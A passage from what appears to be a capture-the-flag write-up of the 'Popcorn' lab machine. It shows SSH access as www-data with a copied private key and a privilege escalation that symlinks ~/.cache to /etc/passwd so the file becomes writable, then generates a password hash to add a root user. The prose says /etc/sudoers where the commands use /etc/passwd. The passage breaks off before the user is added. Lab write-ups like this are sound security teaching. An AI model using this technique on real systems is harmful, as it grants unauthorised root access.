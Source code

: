 
If I grab a copy of the private key, bring it back to my host, and then SSH to
Popcorn as www-data, not only do I get a shell:

    
    
    root@kali# ssh -i /tmp/key www-data@10.10.10.6
    Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686
    
    To access official Ubuntu documentation, please visit:
    http://help.ubuntu.com/
    
      System information as of Sun Jun 21 21:49:51 EEST 2020
    
      System load: 0.0               Memory usage: 5%   Processes:       111
      Usage of /:  6.2% of 14.80GB   Swap usage:   0%   Users logged in: 0
    
      Graph this data and manage this system at https://landscape.canonical.com/
    
    
    The programs included with the Ubuntu system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
    applicable law.
    
    $
    

But the `.cache` directory shows up with a `motd.legal-displayed`:

    
    
    www-data@popcorn:~$ find .cache/ -type f -ls
      4082    0 -rw-r--r--   1 www-data www-data        0 Jun 21 21:49 .cache/motd.legal-displayed
    

#### Get Write on passwd

I’ll clean up the `~/.cache` directory and replace it with a link to
`/etc/sudoers`:

    
    
    www-data@popcorn:~$ rm -rf .cache/
    www-data@popcorn:/var/www$ ln -s /etc/passwd .cache
    www-data@popcorn:/var/www$ ls -la .cache 
    lrwxrwxrwx 1 www-data www-data 11 Jun 21 22:04 .cache -> /etc/passwd
    

Now I’ll log in again with SSH, and then `/etc/passwd` is owned by `www-data`:

    
    
    www-data@popcorn:/var/www$ ls -l /etc/passwd
    -rw-r--r-- 1 www-data www-data 1031 Mar 17  2017 /etc/passwd
    

#### Add Root Users

With write access, I’ll just add a root user. First, I need a password hash:

    
    
    www-data@popcorn:/var/www$ openssl passwd -1 0xdf
    $1$sWwJSjdl$vj3sfStwX82SUTKJDoYhI1
    